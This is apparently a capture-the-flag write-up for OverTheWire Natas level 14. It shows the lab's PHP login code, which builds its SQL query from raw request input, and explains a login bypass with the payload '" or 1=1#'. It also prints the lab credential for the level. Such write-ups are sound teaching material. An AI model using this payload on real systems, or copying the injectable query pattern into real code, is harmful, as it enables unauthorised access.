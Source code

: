 # Level 14


URL : http://natas14.natas.labs.overthewire.org/

### Creds for level 14
natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

## Introduction
We will be doing some `basic SQL injection` in this writeup. You may want to read on [SQL](https://en.wikipedia.org/wiki/SQL)

## Solution

we are given a simple form with two inputs **username** and **password**.

Let's review the source code and spot the vulnerability.

```php
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?> 
```

We can see that both the username and password are injectable.  
Let's try to play a little with the query.  

let's enter test as the `username` and test as `password`, then the query will look like this : 

```sql
SELECT * from users where username="test" and password="test"
```

Now let's try :
- **username:"test**
- **password:"test**

Then our query would look like this:

```sql
SELECT * from users where username=""test" and password=""test"   
```

Now we can do this : username = **" or 1=1#**, this will be equivalent to

```sql
SELECT * FROM users where 1
```

`NOTE: # is used for commenting is SQL.`

We can use the payload `" or 1=1#` in both username or password, they are both injectable.

This challenge is a simple Authentification Bypass.


























